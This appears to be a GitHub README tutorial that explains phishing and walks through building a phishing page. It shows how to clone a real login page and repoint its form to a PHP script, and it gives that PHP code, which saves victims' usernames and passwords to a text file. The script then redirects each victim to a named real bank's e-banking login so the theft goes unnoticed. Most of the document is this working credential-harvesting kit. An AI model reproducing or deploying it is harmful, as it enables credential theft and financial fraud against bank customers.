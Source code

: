 # phishing


What phishing website does?

Phishing is get sensitive data like passwords, credit card details using fake websites and emails. This is the good example to social 
engineering because this fake website same as the original web site. So user easily caught this unauthorized websites. 



How to host the phishing page on our computer using XAMPP/WAMP ?

1) Open the website in the browser for which you want to create a phishing page. Right click and save as index.html.

![capture1](https://cloud.githubusercontent.com/assets/18233358/24329625/faa91b94-1229-11e7-8c3b-fd3ae79db078.PNG)

2) Then open that html in a note pad. Now search string "action" and change address to validate.php

                   <form action="validate.php" method="post">

3) Now open notepad, type following code in it and save it as validate.php. This is create for store credentials.

                    <?php
                    $username = $_POST["username"];
                    $password = $_POST["passwd"];
 
                    //Get credentials to .txt file
                    $myfile = fopen("credentials.txt", "a") or die("Unable to open file!");
                    $txt = "USERNAME = $username , PASSWORD = $password\n";
                    fwrite($myfile, "\n". $txt);
                    fclose($myfile);
 
                    //Redirect the browser to original login page
                    header("Location: https://www.ebank.peoplesbank.lk/eb/index.html");
 
                    exit();

                    ?>

4) Then create credentials.txt file to store these credentials.

5) Host that created files to XAMMP/WAMP.

![capture15](https://cloud.githubusercontent.com/assets/18233358/24329725/8ecfe7a6-122c-11e7-9c95-fa13dad02083.PNG)

6) Then run that phishing website on browser and enter credentials.

![capture14](https://cloud.githubusercontent.com/assets/18233358/24329565/f023d058-1227-11e7-9e8e-e1297b9771ea.PNG)

7) That credentials store credentials.txt file. You can view that file and get that credentials easily.












